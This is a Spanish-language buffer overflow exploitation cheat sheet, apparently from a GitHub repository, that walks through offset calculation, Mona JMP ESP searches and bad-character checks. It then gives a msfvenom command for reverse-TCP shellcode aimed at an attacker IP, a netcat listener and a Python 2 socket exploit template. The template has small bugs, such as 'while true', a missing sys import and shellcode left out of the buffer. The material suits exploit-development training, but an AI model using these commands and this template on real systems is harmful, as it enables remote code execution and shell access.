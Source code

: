 # Buffer Overflow

## Desensamblar un archivo .exe 

```shell
objdump -d -Mintel goodpwd.exe > goodpwd_disassembled.txt
```


## Algunas Operaciones Inseguras
- strcpy
- vsprintf
- strcat
- printf
- gets / fgets
- memcpy
- scanf/ fscanf

## Calculado el offset
### Paso 1 
#### Generar un payload
con `msf-pattern_create`, tan grande como el numero que especifiquemos
```shell
msf-pattern_create -l 2000
```

### Paso 2
#### Copiamos el payload generado
y lo usamos en el input

### Paso 3 
#### Calcular el offset

por medio de msf-pattern_offset
```shell
msf-pattern_offset -q 30684239 
```

## Uso de Mona
### Configuramos el directorio de trabajo para Mona
```shell
!mona config -set workingfolder C:\somefolder\%p
```
### Para crear un payload con Mona 
```shell
!mona pc 100
```
### Para calcular el Offset
```shell
!mona po 61413761
```
Una vez que el EIP es sobreescrito podemos ejecutar:
```shell
!mona suggest
```
Mona nos pedirá que proporcionemos información sobre la carga útil y creará automáticamente un módulo Metasploit para explotar la aplicación.
### Modulos que no tengan ASLR activado 
```shell
!mona noaslr
```
### Verificar los modulos disponibles
```shell
!mona modules
```
### Saltar a un registro
especificamos el registro con -r
```shell
!mona jmp -r esp
```
### Especificar un modulo o mas de uno
```shell
!mona jmp -r esp -m kernel
```
o de la misma manera se puede usar para buscar con el opcode especifico:
```shell
!mona find -s "\xff\xe4" -m kernel
```
donde `xFFxE4 = JMP ESP`

Una vez que se encuentra la direccion de la instruccion se puede continuar

## Identificar los BadChars
### Lista de todos los posibles badchars
```
\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```
### Identificar batchars con mona
Previamente debemos tener un directorio de trabajo creado y usar 
```
!mona bytearray
```
Con lo cual se creara un archivo `bytearray.bin` en la carpeta de nuestro directorio de trabajo.
Luego ejecutamos el payload mandando los batchars, y comparamos usando 
```shell
!mona compare -f C:\Users\User\Desktop\carpeta\bytearray.bin -a 0187A128
```
donde especificamos la ruta del archivo `.bin` y con el parametro `-a` especificamos la direccion del `ESP`. Lo siguiente es quitar el resultado de badchar detectado de nuestro payload y crear otro `bytearray.bin` con el siguiente comando
```shell
!mona bytearray -cpb "\x00"
```
Donde especificamos los badchar que no queremos que se incluya en el nuevo `bytearray.bin`

## Generar la shellcode
### Ejemplo de Shellcode
```shell
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.100.15 LPORT=4646 -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai -f c
```
Donde especificamos la aqrquitectura del sistema, los badchars que no queremos que se incluyan en el shellcode.
## Para escuchar el puerto podemos usar 
```shell
rlwrap nc -nlvp 446
```
## Alternativa al uso de NOPs en la shellcode
El desplazamiento de pila es la alternativa al uso de NOPs, para ello utilizamos `msf-metasm_shell`, ejemplo recorrer en 10 unidades
```
sub esp,0x10
```
Lo cual nos dara como resultado el siguiente opcode
```
\x83\xEC\x10
```

## Plantilla de exploit en python2
```python
import socket
import time

host = "172.16.169.140"
port = 9999

junkbytes = "A"*524
eip = "\xf3\x12\x17\x31"
esp = "C"*700
nops = "\x90"*20
badchars = "\x00\x0A"
shellcode = "\a0\x0d..."


buffer = junkbytes + eip + nops + esp

while true:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host, port))
        s.recv(1024)
        s.send(buffer+"\r\n")
        message = s.recv(1024)
        print(message)
        print("[+] Payload sent with length: " + str(len(buffer)))
        s.close()
        # junkbytes += ("A"*100)
    except Exception as ex:
        print "\n !!! Error en la conexion !!!\r\n" + str(ex)
        sys.exit(1)


```